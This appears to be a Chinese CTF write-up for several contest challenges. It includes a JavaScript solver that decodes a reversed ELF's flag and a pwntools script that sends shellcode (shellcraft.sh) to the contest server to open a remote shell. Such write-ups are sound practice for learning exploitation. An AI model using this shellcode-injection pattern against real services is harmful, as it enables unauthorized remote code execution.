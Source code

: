 ![image.png](https://i.loli.net/2019/10/23/39XHJ1USwcqVGf2.png)

## 不同寻常的 Python 考试

这题不讲，嗯 各种 Python 的奇怪判断

拿了 75 分, 要暴打出题人（被打

## 小巧玲珑的 ELF

直接 ELF 拖进 IDA Pro 就可以看到内部逻辑 然后写一个程序自动求解

```javascript
const data = [
    102, 110, 101, 107, -125, 78, 109, 116, -123, 122, 111,
    87, -111, 115, -112, 79, -115, 127, 99, 54, 108, 110,
    -121, 105, -93, 111, 88, 115, 102, 86, -109, -97, 105, 
    112, 56, 118, 113, 120, 111, 99, -60, -126, -124, -66, -69, -51
]

const rbit = data.map((it, index) => {
    let i = it + index

    i ^= index
    i -= 2 * index

    return i
})

console.log(Buffer.from(rbit).toString())
```

## Shell 骇客

只做了第一题, 我永远喜欢 PwnTools （跑

```python
from pwn import *
import time
context(arch = 'x86_64', os = 'linux')

r = remote('202.38.93.241', 10000)
time.sleep(1)
r.sendline('Token')
r.sendline(asm(shellcraft.sh()))
r.interactive()
```

找到了 `pwn.encoders.encoder.encode` 这个方法, 但是没找到 `msfvenom` 这个工具, 可能还是我太菜了

而且我还把 target 当成 `x64` 了（捂脸

## 三教奇妙夜
